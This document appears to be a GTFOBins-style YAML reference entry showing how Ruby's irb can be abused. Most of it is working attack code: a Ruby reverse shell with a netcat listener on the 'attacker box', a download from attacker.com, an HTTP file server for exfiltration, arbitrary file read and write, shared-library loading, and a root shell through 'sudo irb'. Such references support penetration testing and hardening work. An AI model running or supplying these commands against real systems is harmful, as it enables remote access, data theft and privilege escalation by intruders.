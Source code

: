 ```yaml
---
functions:
  shell:
    - code: |
        irb
        exec '/bin/bash'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST='127.0.0.1'
        export RPORT=9000
        irb
        require 'socket'; exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read} end
  file-upload:
    - description: Serve files in the local folder running an HTTP server on port 8888.
      code: |
        irb
        require 'webrick'; WEBrick::HTTPServer.new(:Port => 8888, :DocumentRoot => Dir.pwd).start;
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        irb
        require 'open-uri'; download = open(ENV['URL']); IO.copy_stream(download, ENV['LFILE'])
  file-write:
    - code: |
        irb
        File.open("file_to_write", "w+") { |f| f.write("DATA") }
  file-read:
    - code: |
        irb
        puts File.read("file_to_read")
  library-load:
    - code: |
        irb
        require "fiddle"; Fiddle.dlopen("lib.so")
  sudo:
    - code: |
        sudo irb
        exec '/bin/bash'
---
```

